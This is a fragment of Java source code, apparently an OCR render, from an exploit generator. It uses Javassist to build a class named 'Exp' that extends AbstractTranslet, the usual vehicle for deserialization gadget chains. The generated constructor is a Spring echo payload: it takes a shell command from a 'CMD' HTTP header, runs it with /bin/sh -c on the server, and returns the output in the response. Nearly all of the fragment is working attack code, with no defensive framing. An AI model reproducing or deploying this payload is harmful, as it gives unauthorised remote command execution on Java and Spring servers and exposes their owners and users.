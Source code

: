 ```java
            "                e.getStackTrace();\n" +
            "            }\n" +
            "        }", clazz));

        // 兼容低版本jdk
        clazz.getClassFile().setMajorVersion(50);
        CtClass superClass = classPool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        return clazz;
    }
    public CtClass genPayloadForLinux() throws NotFoundException, CannotCompileException {
        ClassPool classPool = ClassPool.getDefault();
        CtClass clazz = classPool.makeClass("Exp");

        if ((clazz.getDeclaredConstructors()).length != 0) {
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);
        }
        clazz.addConstructor(CtNewConstructor.make("public SpringEcho() throws Exception {\n" +
            "            try {\n" +
            "                org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();\n" +
            "                javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();\n" +
            "                javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();\n" +
            "\n" +
            "                String te = httprequest.getHeader(\"Host\");\n" +
            "                httpresponse.addHeader(\"Host\", te);\n" +
            "                String tc = httprequest.getHeader(\"CMD\");\n" +
            "                if (tc != null && !tc.isEmpty()) {\n" +
            "                    String[] cmd =  new String[]{\"/bin/sh\", \"-c\", tc};\n" +
            "                    byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter(\"\\\\A\").next().getBytes();\n" +
            "                    httpresponse.getWriter().write(new String(result));\n" +
            "\n" +
            "                }\n" +
            "                httpresponse.getWriter().flush();\n" +
            "                httpresponse.getWriter().close();\n" +
            "            } catch (Exception e) {\n" +
            "                e.getStackTrace();\n" +
            "            }\n" +
            "        }", clazz));

        // 兼容低版本jdk
        clazz.getClassFile().setMajorVersion(50);
        CtClass superClass = classPool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        return clazz;
    }
}

```
